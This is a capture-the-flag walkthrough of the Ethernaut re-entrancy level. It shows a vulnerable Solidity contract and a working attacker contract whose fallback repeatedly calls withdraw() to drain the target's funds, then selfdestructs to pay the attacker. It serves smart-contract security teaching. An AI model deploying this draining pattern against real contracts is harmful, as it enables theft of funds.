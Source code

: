 # Type - Beyond the console

***


# The goal of this level is for you to steal all the funds from the contract.

Things that might help:

  * Untrusted contracts can execute code where you least expect it.
  * Fallback methods
  * Throw/revert bubbling
  * Sometimes the best way to attack a contract is with another contract.
  * See the "?" page above, section "Beyond the console"


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

***

# Solution

1. Get a new instance
2. To exploit the contract we can focus on the withdraw() function and make the exploit
3. To gain advantage , we create a new smart contract ,giving the address of the Reentrance smart contract as a parameter in the constructor , we then create a fnction called  as attack where we send some eth triggering the deposit function in Reentrance and then we call the withdraw function, which should send back some eth to the hack contract which should trigger the fallback function inside which  we perform withdrawal again

```
contract Hack {
  Reentrance private target;

  constructor(address payable  _target){
    target = Reentrance(_target);
  } 

  function attack() external payable{
    target.donate{value: 1e18}(address(this));
    target.withdraw(1e18);

    require(address(target).balance ==0, "target balance >0");
    selfdestruct(payable(msg.sender));
  }

  receive() external payable {
    uint amount = min(1e18, address(target).balance);
    if( amount >0){
      target.withdraw(amount);
    }
    
   }

  function min(uint x, uint y) private  pure  returns(uint){
    return x <= y ? x : y ;
  }

}
```

*** 

# Explanation

Smart Contract Programmer - [Ethernaut 10 - Re-entrancy](https://www.youtube.com/watch?v=K8AFyNiuTXs)
